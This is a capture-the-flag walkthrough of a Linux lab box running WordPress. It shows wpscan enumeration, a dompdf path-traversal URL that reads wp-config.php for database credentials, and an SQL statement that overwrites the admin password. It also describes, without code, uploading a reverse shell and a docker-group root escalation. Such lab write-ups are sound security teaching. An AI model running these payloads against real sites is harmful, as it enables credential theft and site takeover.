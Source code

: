 <h2 class="menu-header" id="index"><a href="../index.html">HOME</a></h2>



## WHALE

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/6a7ee79c-1f97-4372-b29b-46193440a592)



DIFFICULTY= medium

OS = Linux


### Nmap scan

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e7ac9040-3910-472c-be9b-5ef758724426)

adding the domain to /etc/hosts
``echo "ip  bluewhale.net" >> /etc/hosts``

so, visiting the site shows it's running wordpress

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/016ff2dd-3aa3-4996-87f1-71fe567ed16f)

let's enumerate the wordpress using ``wpscan`` aggressive detection

```wpscan --url http://bluewhale.net/  --plugins-detection aggressive -t 120```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e4f489b7-a427-4c19-8ae1-ac24d5acb083)

it gives us a vulnerable plugin; the plugin is vulnerable to arbitrary file read

so, we can exploit it using [this](https://www.exploit-db.com/exploits/33004)

doing that,we should be able to read the wordpress config file ``wp-config``

```bluewhale.net/wp-content/plugins/post-pdf-export/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=../../../../wp-config.php```

reading it gives us the gives us the base64 encoded chars.

decoding it shows the mysql credential

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/01cdc783-aa0d-4bb4-90b5-4cc1923258e5)

let's login to mysql with it 
``mysql -u wordpress -h bluewhale.net -p``
and input the password

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7780d4f1-3484-4965-9a8e-160e4e8cad08)
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8e86ab4c-12bc-4a85-b364-48d9a0198a5a)

as u can see we have the first flag already

let's proceed by checking the wp_users table 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/eb5268df-f706-4f33-9883-980684964c78)

and yeah we have the credentials for the wordpress login

so, instead of cracking the password hash we can actually change the password to our desired own for easier loggin(cool trick right?) lol

```UPDATE wp_users SET user_pass = MD5('hacked') WHERE ID = 1;```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/bc564284-6efa-44b7-a82f-dcd6707a4d05)

so, we can now login to wordpress and proceed

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4b971843-adc4-4474-90ba-1f82bfa63aca)

login and upload a reverse shell using the add plugin feature
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/288de2a8-c124-488d-9af6-0499c0212844)

and let's access our shell in the upload directory
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/49a87b3e-5c6e-4a98-952d-ae3f2b0020b0)

 getthe reverse shell and stablize it

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4f5fedf6-4f12-4775-b36c-3350bc222824)


### Privilege escalation

 Enumerating further i got the ssh private key for the user ``whale`` in the whale home directory ``.bak`` cool :)

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/b03ecfd8-664d-4866-b2d6-155715944b35)

 so we can now ssh into the box as user whale

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/dfe9578b-01d0-4564-b69a-2779e77e4964)

 so let's read the FLAG58 which we ain't able to read before.

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/dc6da781-061d-45c5-80dc-f1c0ab394633)

 so, running the command ``id`` shows the user ``whale`` is in *docker group* which we can escalate our privilege to root using it.
 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/baa92ea4-4cfa-4fb5-96d7-9cc1fa8501cc)

 read more about the docker group privilege escalation [here](https://flast101.github.io/docker-privesc/)

following the steps should give us root

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/ac79dee5-74fc-49d2-bf98-e53b52529e5a)


Thanks.

Tags: Dompdf,Arbitrary file read,Docker












